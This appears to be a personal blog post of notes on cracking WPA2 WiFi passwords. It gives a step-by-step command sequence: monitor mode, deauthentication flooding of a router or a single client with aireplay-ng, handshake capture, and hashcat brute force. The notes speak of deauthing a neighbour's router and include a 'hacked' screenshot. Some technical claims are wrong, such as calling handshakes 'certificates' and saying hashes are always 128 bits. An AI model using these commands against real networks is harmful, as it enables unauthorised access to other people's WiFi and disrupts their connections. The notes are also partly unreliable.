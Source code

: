 ```yaml
---
layout : post
title : Sniffing packets and testing those
date : 2021-06-21
---
```


Wireless Network Adapter aka wifi card that is used to connect to wifi's 

WEP : oldest
WPA : Any certificate can lead to leak 
WPA2 : kick a user, then he reconnects, capture the certificate, 4-way handshake ,capture the certificate in betweeen   
WPA3 : all password attempts need to be on internet 



## Monitor mode
In this mode it becomes a radio sniffer, listens to all wireless signals in the air on a specific channel. Hear's everything happening in the room 

Wifi card can listen to 2.4Ghz, 5Ghz, 6Ghz bands 

It can sniff to any frequency band that its capable of in the above range

So what you do is you deauth the neighbor's router by sending 'deauthentication packets' ? ( how can I send deauth packets ? )
deauth is broken, part of 802.11 management frames, are not protected in WPA/WPA2 - Personal , can be spoofed / faked by anyone in the range 


Particular client deauth attack 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Probes
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -45   1e-1     0       800     -
```

Station MAC is the client MAC 

Get all clients :
`airodump-ng --bssid <router MAC> -c <channel> wlo1mon`

Deauth bombing: 
`aireplay-ng --deauth 100 -a <router MAC> wlo1mon`

Deauth particular user : 
`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlo1mon`

When the client connects back, we capture the 4-way handshake packets EAPOL Packets, and they are stored to the .cap files 

We dont need to decrypt this, rather we just need to match with the leaked password list and get the wifi password !! 

## Steps to get the certificate

* Change to Monitor Mode : `sudo airmon-ng start wlo1`
 
* Scan the wifi : `sudo iwlist scan`

* Top networks
```
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv
```
* Set the channel to capture : `sudo iw dev wlo1mon set channel 1`

* Get all wifi present and bssid : `sudo iw dev wlo1 scan`

* Get into monitor mode : `sudo airmon-ng start wlo1`

* Manager mode : `sudo airmon-ng stop wlo1mon`

* Airodump : `sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon`

To check how many beacons you have passed and see if any relevant signal has been catched or not !!
* sudo airodump-ng -w '<hack2>' -c '<1>' --bssid '<A8:DA:0C:BD:0B:57>' wlo1mon

* Send deauth request at scale : `sudo aireplay-ng --deauth 0 -a <48:22:54:4C:CA:18> wlo1mon`
OR  
`sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one`


![hacked](https://github.com/user-attachments/assets/8ab726b5-c6b8-43e9-b184-a7207d1f3163)

So it all comes down to having a list of all possible passwords and then hash them and see which one is the matching the user and if the password is unique enough then we run out of luck ..  

## Using GPU to Crack the password 

Once the desired 4 way certificate is captured and you will see that your terminal output also use that to see the output in wireshark (optional) and then use it to generate .hash 

Dont use hashcat-utils (its not working for my case) it's actually making the file corrupt

Convert from `.cap` (captured certificates) to the .hash using `hcxpcaptool` from AUR and use it using 

`hcxpcapngtool -o correct_wpa2.hash hack3-01.cap`    

Then use this .hash file with hashcat to get the output 

Here the 22000 is for wpa2 , the last one is the mask and a : ascii , d: number-digits  
`hashcat -m 22000 -a 3 correct_wpa2.hash '?a?a?a?a?a?a?a?a?a'`


# Hashing 
So hashing is a one way process where no matter what amount of data you have it gets converted to a fixed size length(128 bits) and then that is matched with the other side and if both hashes matches then its a success !!


So its a nice way to check if everything was downloaded correctly from internet also rather than transferring more bits through the internet we can just share the hash and retrieve value so lower down the bandwidth ! 


